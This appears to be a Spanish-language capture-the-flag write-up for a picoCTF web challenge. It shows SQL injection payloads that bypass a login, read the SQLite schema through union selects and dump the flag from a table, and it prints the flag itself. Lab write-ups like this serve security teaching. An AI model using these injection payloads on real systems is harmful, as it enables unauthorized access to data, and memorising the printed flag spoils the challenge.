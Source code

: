 ### Descripción
Can you find the flag on this website.
Try to find the flag [here](http://saturn.picoctf.net:50165/).

Hints:
1. SQLiLite

### Solución
Al ingresar utilizando la inyección:
```
' or 1=1;
```

Nos muestra la base de datos para buscar la bandera en las tablas. 
```
' union select sqlite_version(), 2,3;

version 3.31.1
```

Obtener la estructura de las tablas:
```
Algiers' union select sql, 2,3 from sqlite_master; 
```

Extraer los datos de la tabla:
```
' union select id,flag,3 from more_table;

|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}|3|
|2|If you are here, you must have seen it|3|
```

Flag:
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}

### Solución 2
Utilizando Burp Suite y FoxyProxy, se hace el bypass del login con la inyección y en el BurpSuite en el historial del HTTP se puede observar la respuesta que ya contiene la bandera sin tener que buscar en alguna tabla como en la solución anterior:
```
<p>
	Your flag is:
	picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8ee9477}
<p>
```

### Notas adicionales


### Referencias
Burp Suite
FoxyProxy
